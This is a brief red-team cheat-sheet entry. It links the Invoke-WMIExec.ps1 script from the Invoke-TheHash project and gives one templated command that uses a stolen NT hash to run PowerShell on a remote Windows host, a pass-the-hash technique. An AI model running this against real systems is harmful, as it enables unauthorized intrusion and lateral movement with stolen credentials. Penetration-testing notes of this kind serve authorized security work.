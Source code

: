 ### Source
https://raw.githubusercontent.com/Kevin-Robertson/Invoke-TheHash/master/Invoke-WMIExec.ps1  

### Execute command
```
Invoke-WMIExec -Target <rhost> -Domain <domain> -User <user> -Command "powershell -c <command>" -Hash <nthash>
```

